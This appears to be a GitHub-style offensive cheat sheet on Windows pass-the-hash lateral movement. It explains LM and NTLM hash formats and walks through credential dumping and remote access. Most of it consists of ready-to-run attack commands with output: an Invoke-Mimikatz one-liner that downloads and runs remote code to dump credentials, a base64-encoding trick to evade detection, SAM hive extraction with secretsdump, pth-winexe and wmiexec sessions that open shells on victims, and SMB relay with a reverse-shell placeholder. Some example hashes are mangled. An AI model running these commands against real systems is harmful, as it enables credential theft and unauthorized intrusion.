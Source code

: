 # Pass-The-Hash Windows

In most case of leathral movment, we usually don't have password. 
This PTH technique, allows us to authenticate to a remote target by using a valid username and NTLM/LM hash rather than username and password. First let's understand the diffrences between LM,NTLM and NTLMv1/v2 hashes:

## Lan Manager (LM) Hashes

The oldest password storage used by Windows. In Windows 2000, XP and Server 2003 passwords shorter than 15 characters were stored in the Lan Manager (LM) hash format as following:

```
user:group:id:lmhash:nthash::
```

For example:

```
 Admin:502:aad3c435b514a4eeaad3b935b51304fe:c46b9e588fa0d112de6f59fd6d58eae3:::
```

This hash divided by semicolon, means:

- Admin is the user name

- 502 is the relative identifier (500 is an administrator, 502 here is a kerberos account. (adsecurity.org/?p=483)

- aad3c435b514a4eeaad3b935b51304f is the LM hash

- c46b9e588fa0d112de6f59fd6d58eae3 is the NT hash 


Our final NTLM hash for brute force attack will be *aad3c435b514a4eeaad3b935b51304fe*
For online cracking use: https://hashkiller.co.uk/Cracker/NTLM

## NT (New Technology) Hashes

In newer Windows versions (such as Vista, Server 2008+, Win7 etc.) this is the way passwords are stored, also those hashes are stored on domain controllers in the NTDS file and commonly use for pass-the-hash. This commonly use in term of NTLM hash (or just NTLM).

NTLM hash with only the NT component format as following:

```
user:group:id:emptylmhash:nthash::
```

For example:

```
Administrator:500:NO PASSWORD*********************:EC054D40119570A46634350291AF0F72:::
ITguy:1007:AAD3B435B51404EEAAD3B435B51404EE:38103E9BF8D09200D725F1541ECC5BCA:::
```

In both cases, it is the same format. However, the string "NO PASSWORD" or "AAD3B435B51404EEAAD3B435B51404EE" display in place of no password depend on the tool being used to dump those hashes as normally LM hash is empty and not stored. NTLM hash can be cracked to gain password, or used to pass-the-hash.

For online cracking use: https://hashkiller.co.uk/Cracker/NTLM

## NTLMv1/v2

Those NTLMv1/v2 are challenge response protocols used for authentication in Windows environments, much harder to bruteforce and usually used in SMB relay attack using Responder.py or Impacket Python tools to obtains this hash from a client in the network.

NTLMv1-SSP hash format as following:

```
username::hostname:*response*:*response*:challenge
```

For example:

```
john::MWLAB:338d08f8e26de93300000000000000000000000000000000:9526fb8c23a90751cdd619b6cea564742e1e4bf33006ba41:cb8086049ec4736c
```

We will use the response characters from the hash string as our final hash for pass-the-hash:

```
38d08f8e26de93300000000000000000000000000000000:9526fb8c23a90751cdd619b6cea564742e1e4bf33006ba41
```

Then, use this hash on one of pth (pass-the-hash) tools for example wmiexec from Impacket:

```
root@kali:~# wmiexec.py  -hashes 38d08f8e26de93300000000000000000000000000000000:9526fb8c23a90751cdd619b6cea564742e1e4bf33006ba41 administrator@192.168.1.12
Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>
```

## Dump Hashes

### Using FgDump.exe tool

Dump hashes from running system using fgdump.exe from Kali as following:

```
root@kali:~# cd /usr/share/windows-binaries/fgdump
root@kali:/usr/share/windows-binaries/fgdump# python -m SimpleHTTPServer 80
```

### Using powershell mimikatz

Use the newer version of Invoke-Mimikatz, available in Empire 3.0 on the victim machine:

```
C:\> powershell -c "IEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command privilege::debug; Invoke-Mimikatz -DumpCreds;"
```

*For Windows 10:*

Encode the command using the following trick in you Kali machine:

```
root@kali:~# iconv -f ASCII -t UTF-16LE <<<'IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/7a39a55f127b1aeb951b3d9d80c6dc64500cacb5/data/module_source/credentials/Invoke-Mimikatz.ps1"); $m = Invoke-Mimikatz -DumpCreds; $m' | base64 -w 0
```

It will output:

```
SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAG...
```

Then use it in your powershell command:

```
C:\> powershell -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAG...
```

### From Compromised system

If we already compromised system, then we able extract the values of SAM files from you system and then dump thier hashes in your kali machine:

On victim machine (has to run under SYSTEM-level privileges):

```
C:\> reg.exe save hklm\sam c:\temp\sam.save
C:\> reg.exe save hklm\security c:\temp\security.save
C:\> reg.exe save hklm\system c:\temp\system.save

```

Then use those copy of the SYSTEM, SECURITY and SAM hives back to your kali machien and use secretsdump.py to dump hashes:


```
root@kali:~# secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
Impacket v0.9.11-dev - Copyright 2002-2013 Core Security Technologies

[*] Target system bootKey: 0x602e8c2947d56a95bf9cfad9e0bbbace
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
renadm:500:aad3b435b51404eeaad3b435b51404ee:3e24dcead23468ce597d6883c576f657:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
support:1000:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
[*] Dumping cached domain logon information (uid:encryptedHash:longDomain:domain)
hdes:6ec74661650377df488415415bf10321:securus.corp.com:SECURUS:::
Administrator:c4a850e0fee5af324a57fd2eeb8dbd24:SECURUS.CORP.COM:SECURUS:::
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:2fb3672702973ac1b9ade0acbdab432f
...

```

## Practical Usage PTH

### Pth-winexe

This help us to get an interactive command line with the remote victim:

USAGE:

```
pth-winexe -U DOMAIN/user%hash //$ip cmd
```

Example:
```
root@kali:~# pth-winexe -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:C0F2E311D3F450A7FF2571BB59FBEDE5 //192.168.1.12 cmd.exe
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows \[Version 6.3.9600\]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
Server\Administrator
```

### SMB Relaying attack

Fire up the Responder.py tool:

```
root@kali:~# python Responder.py -I eth1 -r -d -w
```

In another window running the following command using Impacket Python:

```
root@kali:~# ntlmrelayx.py -tf targets.txt -c [POWERSHELL REVERSE SHELL]
```

Upon successful relay it will dump the SAM database of the target and executing a command in background using the NTLM hash.

